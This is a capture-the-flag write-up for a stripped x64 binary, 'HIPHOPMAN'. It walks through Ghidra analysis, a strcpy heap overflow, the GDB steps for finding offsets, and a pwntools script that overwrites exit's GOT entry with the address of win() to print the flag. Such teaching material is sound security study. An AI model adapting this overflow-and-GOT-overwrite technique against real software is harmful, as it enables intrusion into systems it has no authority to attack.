









## Write-What-Where
### Architecture and protections
The binary is x64 with `Partial RELRO` and no PIE.



### Static analysis
Due to the binary being stripped, analysis will be more tedious. In `ghidra`, the `FUN` that is actually `main()` can be identified from `entry()`. It is recommended to rename the `FUN` to `main()`.



To aid interpretation of the code, a struct can be created:
1. Access the data type manager at the lower left.
2. Right-click `HIPHOPMAN`, then choose "new", then choose "structure".
3. Specify a size of 16 bytes, due to `malloc(0x10)`.
4. Set `field1` with `name=value` and `type=long` (8 bytes).
5. Set `field2` with `name=address` and `type=long*` (8 bytes).
6. Save with the floppy disk icon.
7. Change the type of the relevant variables to `struct*`.



`main()` has vulnerable `strcpy()` at lines 22 and 24, which will copy until `\x00` regardless of overflow. The progam also ends with `exit()` instead of `return`.



Looking around the other `FUN`, one of them prints the flag. It is recommended to rename this `FUN` to `win()`.



### Exploit planning
1. When the first `strcpy()` is run, exploit the overflow to overwrite `puVar2->address` to the GOT _address_ of `exit()`.
2. When the second `strcpy()` is run, the GOT _entry_ of `exit()` will be overwritten. By overwriting it to `win()`, then when the program attempts to exit at the end of execution, it will instead run `win()`.

### Exploit crafting
#### Finding the pad length required, using GDB-gef:
- `gdb -q ./HIPHOPMAN`
- `entry`
- `b *0x4008f7`
- `c`
- `p $rax`



- `b *0x4009ab`
- `c`
- Send `AAAA` and `BBBB` for the two `strcpy()`
- `x/10gx 0x602330`



By observation, 40 bytes are needed before the `puVar2->address` is overwritten.

#### Finding address of `exit@got.plt`:


#### Finding address of `win()`:


### Exploit code
```python
from pwn import *

elf = context.binary = ELF('./HIPHOPMAN', checksec=False)
context.log_level = "error"

p = process()

EXIT = 0x601068
WIN = 0x400826

payload = flat(
    40 * b'A',
    EXIT
)
p.sendline(payload)

payload = flat(
    WIN
)
p.sendline(payload)

p.interactive()

# CDDC2025{UKNOWHIPhopISHEAPHop}
``` 

### Exploit success


### References
A similar challenge: [link](https://medium.com/@0xwan/binary-exploitation-heap-overflow-to-overwrite-got-d3c7d97716f1)
